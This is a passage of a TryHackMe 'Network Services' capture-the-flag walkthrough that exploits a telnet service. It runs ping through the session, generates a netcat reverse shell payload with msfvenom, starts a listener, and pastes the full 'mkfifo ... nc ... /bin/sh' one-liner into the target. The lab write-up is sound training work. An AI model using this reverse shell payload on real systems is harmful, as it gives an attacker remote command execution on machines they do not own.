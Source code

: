 6. Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ ping 10.8.106.222 -c 1
PING 10.8.106.222 (10.8.106.222) 56(84) bytes of data.
64 bytes from 10.8.106.222: icmp_seq=1 ttl=64 time=0.027 ms

--- 10.8.106.222 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.027/0.027/0.027/0.000 ms
```

7. Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
8. We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: "`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`"

- `-p` = payload
- `lhost` = our local host IP address
- `lport` = the port to listen on
- `R` = export the payload in raw format

What word does the generated payload start with?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.106.222 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 102 bytes
mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```

`mkfifo`

9. Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using: "`nc -lvp [listening port]`" What would the command look like for the listening port we selected in our payload?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
```

`nc -lvp 4444`

10. Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

```
.RUN mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```
